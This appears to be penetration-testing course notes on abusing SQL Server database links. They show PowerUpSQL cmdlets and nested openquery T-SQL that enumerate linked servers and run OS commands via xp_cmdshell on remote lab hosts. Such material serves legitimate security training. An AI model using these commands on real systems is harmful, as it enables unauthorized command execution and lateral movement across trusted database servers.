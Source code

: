 A database link allows a SQL Server to access external data sources likeother SQL Servers and OLE DB data sources.In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures.Database links work even across forest trusts.

• Look for links to remote servers :

```powershell
Get-SQLServerLink -Instance dcorp-mssql -Verbose
```

```powershell
select * from master..sysservers
```

- Enumerating Database Links :

```powershell
select * from openquery("dcorp-sql1",'select * from master..sysservers')
```

```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose
```

• Openquery queries can be chained to access links within links (nested links) :

```powershell
select * from openquery("dcorp-sql1",'select * from openquery("dcorpmgmt",''select * from master..sysservers'')')
```

- Executing Commands :

```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'" -QueryTarget eu-sql
```

• From the initial SQL server, OS commands can be executed using nested link queries :

```powershell
select * from openquery("dcorp-sql1",'select * from openquery("dcorpmgmt",''select * from openquery("eu-sql.eu.eurocorp.local",''''select @@version as version;exec master..xp_cmdshell "powershell whoami)'''')'')')
```

